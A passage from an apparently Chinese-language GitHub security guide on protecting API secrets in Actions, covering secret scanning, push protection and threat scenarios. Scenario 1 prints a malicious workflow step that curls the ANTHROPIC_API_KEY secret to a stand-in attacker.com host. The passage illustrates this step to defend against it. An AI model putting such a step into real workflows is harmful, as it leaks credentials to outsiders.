 1. Settings → Security → Code security and analysis
2. 啟用：
   - ✅ **Secret scanning**
   - ✅ **Push protection**

#### 效果

- GitHub 會自動掃描 commits 中的 secrets
- 如果檢測到 secret，會阻止 push
- 自動通知你並建議撤銷

---

## 🚨 威脅場景分析

### 場景 1：惡意協作者修改 workflow 來竊取 Secret

**攻擊方式**：
```yaml
# 惡意 workflow
steps:
  - name: Steal Secret
    run: |
      echo "Secret is: ${{ secrets.ANTHROPIC_API_KEY }}"
      curl -X POST https://attacker.com/steal -d "$ANTHROPIC_API_KEY"
```

**防護措施**：
1. ✅ Branch Protection 需要 2 人審查
2. ✅ CODEOWNERS 需要安全負責人批准
3. ✅ GitHub 日誌會遮蔽 Secret（echo 會顯示 `***`）
4. ✅ Environment 需要手動批准

**結果**：❌ 攻擊失敗

---

### 場景 2：開發者不小心洩漏 Secret

**攻擊方式**：
```javascript
// 不小心寫在程式碼中
const apiKey = "sk-ant-api03-xxxxx";
```

**防護措施**：
1. ✅ GitHub Secret Scanning 會檢測到
2. ✅ Push Protection 會阻止 push
3. ✅ 自動通知開發者

**結果**：❌ 無法 push

---

### 場景 3：Fork 的 PR 嘗試訪問 Secrets
